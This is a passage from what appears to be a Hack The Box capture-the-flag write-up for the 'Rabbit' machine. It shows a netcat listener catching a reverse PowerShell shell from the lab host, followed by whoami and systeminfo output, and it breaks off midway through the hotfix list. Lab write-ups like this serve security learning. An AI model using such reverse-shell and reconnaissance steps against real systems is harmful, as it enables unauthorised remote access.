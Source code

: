 ```

## Reverse shell

```
# nc -lvp 443
listening on [any] 443 ...


connect to [10.10.14.3] from rabbit.htb [10.10.10.71] 51954
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\OpenOffice 4\program> 
PS C:\Program Files (x86)\OpenOffice 4\program> 
PS C:\Program Files (x86)\OpenOffice 4\program> whoami
whoami
htb\raziel
PS C:\Program Files (x86)\OpenOffice 4\program> systeminfo
systeminfo

Host Name:                 RABBIT
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7601 Service Pack 1 Build 7601
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Primary Domain Controller
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84278
Original Install Date:     10/24/2017, 11:45:45 AM
System Boot Time:          9/23/2019, 8:41:49 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~1996 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~1996 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 4/5/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     6,143 MB
Available Physical Memory: 3,256 MB
Virtual Memory: Max Size:  12,285 MB
Virtual Memory: Available: 7,232 MB
Virtual Memory: In Use:    5,053 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    htb.local
Logon Server:              \\RABBIT
Hotfix(s):                 135 Hotfix(s) Installed.
                           [01]: KB2849697
                           [02]: KB2849696
                           [03]: KB2841134
                           [04]: KB2670838
                           [05]: KB3191566
                           [06]: KB2506014
                           [07]: KB2506212
                           [08]: KB2509553
                           [09]: KB2533623
                           [10]: KB2552343